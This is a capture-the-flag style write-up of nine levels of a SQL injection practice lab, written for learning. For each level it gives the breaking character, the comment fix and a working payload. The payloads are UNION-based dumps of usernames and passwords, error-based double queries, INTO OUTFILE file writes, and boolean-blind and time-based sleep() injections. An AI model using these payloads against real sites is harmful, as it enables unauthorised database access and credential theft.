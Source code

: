 # SQLI-WRITEUPS                      

**Level-1**                                     
![Screenshot_2024-04-01_07-22-36](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/e8e398cf-c59f-4afa-b0dc-b06c0115ac80)                                 
In this level the error caused in sql query is due to single quote. if we observe the above error we can find that by commenting after the quote we can fix the query.Then after we can send our queries to fetch data from the database.                            
![Screenshot_2024-04-01_18-11-39](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/bbf9bd63-589b-47b4-a09e-b6f9e82d7af0)                                      
**Error: '**              
**Fixing: '--+**
**Query:** *UNION SELECT 1,USERNAME,PASSWORD FROM USERS WHERE ID=3 LIMIT 1,1*                              

**Level-2**                                                                           
![Screenshot_2024-04-01_18-21-55](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/d640e76e-054f-4b61-95ee-33fa671211a6)                                
In this level actually there is no error by commenting out everything after the id it works fine and we cans end our queries to get data.             
**Error: No Error**                        
**Fixing: ?id=1--+**                            
**Query:** *UNION SELECT 1,GROUP_CONCAT(USERNAME),GROUP_CONCAT(PASSWORD) FROM USERS --+*                           

**Level-3**                                              
![Screenshot_2024-04-01_18-27-00](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/611e6831-0e37-4ce8-9a2e-357f2e991ee4)                    
In this level the error is due to single quote . we can fix the error by placing a single quote and parenthes and then by commenting out the remaing query will fix the error and help us to make our own queries                   
![Screenshot_2024-04-01_18-27-44](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/5bee9d0f-8034-4d8a-8f7b-c2f30bf37fac)                            
**Error:  '    id'   ')**                            
**Fixing:  ?id=1')--+**                      

**Level-4**                                              
![Screenshot_2024-04-01_19-24-34](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/c9099fa5-993b-49a9-b45a-309da68b53bc)                                      
In this level the error is same as the previous level but doublequote is sued instead of single quote                  
![Screenshot_2024-04-01_19-25-32](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/e3168cfb-ec4b-4325-8a6f-b3994b929071)                           
**Error:  "     id"    ")**            
**Fixing: ?id=1")--+**                  
                                        
**Level-5**                                                  
![Screenshot_2024-04-01_19-46-01](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/21045cbe-b293-417b-b07c-2665f819942c)                                 
In this level the webpage doesnot show any query results in the webpage so we cannot display query data in webpage . but it displays an error. using that we can send double query injection to give us the data in the error statement.                      
![Screenshot_2024-04-01_19-47-51](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/cda1b4f6-67c6-45f0-afb4-fe566d296049)                                 
**Error: ' id' '**                      
**Fixing: ?id=1'--+**              
**Query:** *select count(*),(concat("~",(select database()),"~",floor(rand()*2)))a from information_schema.tables group by a*                         
                                       
**Level-6**                          
![Screenshot_2024-04-01_20-42-44](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/de5946ae-9b7b-45b5-9629-81427428fb28)                                 
In this level the error is same as level-5 but instead of single quotes double quotes is used in this level. After breaking and fixing the query the remaining part is same as Level-5        
![Screenshot_2024-04-01_20-42-28](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/c43f3dc5-f442-4d16-8db7-9dcc551a67a2)                        
**Error: '"   id"   "'**                        
**Fixing: ?id=1"--+**                            
**Query:** *select count(*),(concat("~",(select database()),"~",floor(rand()*2)))a from information_schema.tables group by a*                    
                                              
**Level-7**                              
![Screenshot_2024-04-01_21-08-16](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/4defc0be-6bc4-40e2-a0a7-755d7a94624f)                          
In this level if there is any error it doesnt display the exact error it will only display a error message . so we need to try for breaking and fixing the error using all error queries like singlequotes,doublequotes and parenthes. once it is breaked then we need to fix and write our query. After fixing the error we can write the dumpfile query to result the ouput in otherfille.This is also a semi blind injection.                                                       
![Screenshot_2024-04-01_21-10-00](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/41f5519a-8ef0-4c0c-8e5e-3af0a4f1947a)                          
**Error: (('   id '))   '))**                                         
**Fixing: ?id=1'))--+**                                           
**Query:** *union select 1,username,password from users into outfile "/var/www/html/Less-8/union.txt"*                              
                            
**Level-8**           
![Screenshot_2024-04-01_21-54-59](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/09a64795-b172-40d9-928c-75fba614f3d9)                              
In this level the webpage doesnot show any message even if we occur any error in the query . but if the query is successful we will get some msg. using this we can send boolean based sql queries. if the condition is true we will see the msg in webpage else we wont see any msg. This type of attacks is called blind boolean based sqli injection                        
![Screenshot_2024-04-01_21-55-40](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/70dc94ec-9503-4193-af3d-d004349921da)                 
**Error: '    id'   '**            
**Fixing:  ?id=1'--+**
**Query:** *AND (ascii(substr((SELECT password from users where username='Dumb'),1,1))>90)** 
- If the above condition is true then it returns 1 and then 1 and 1 becomes true so we will login.                        

**Level-9**                                   
![Screenshot_2024-04-01_22-25-20](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/3b601c1e-b74f-49ba-9dd4-48f0820d68e4)                             
In this level we cannot find any difference whether we enter correct id number or not always the message is same. We can try all error method and along with them we should use sleep, so that if one of the error is broken and fixed then used sleep(), then the webpage wont display the the conent for next n seconds that is defined in sleep().                        
![Screenshot_2024-04-01_22-26-39](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/908cd45d-43fb-4770-bb3e-51d2bd2909b3)                              
**Error: '    id'    '**                                                        
**Fixing:   ?id=1'--+**                                                       
**Query:** *and (if((SELECT SUBSTR(table_name,1,1) from information_schema.tables where table_schema="security" limit 0,1=e,sleep(10),null))*                               

